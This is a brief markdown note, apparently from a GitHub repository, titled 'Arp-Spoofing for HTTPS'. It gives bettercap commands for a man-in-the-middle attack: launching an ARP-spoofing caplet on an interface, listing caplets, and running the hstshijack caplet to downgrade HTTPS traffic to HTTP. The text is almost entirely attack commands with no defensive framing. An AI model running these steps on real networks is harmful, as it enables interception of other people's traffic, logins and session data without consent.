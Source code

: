 # Arp-Spoofing for HTTPS

## Downgrade HTTPS to HTTP

```bash
bettercap -iface eth0 -caplet https_arp_attack.cap
```

```bash
help
```
Make sure they are on, running:

![image](https://github.com/user-attachments/assets/787dd6e8-5321-4e7d-875a-15eb0ee8262b)


Show caplets:

```bash
caplets.show
```

Run hstshijack/hstshijack caplet:

```bash
hstshijack/hstshijack
```


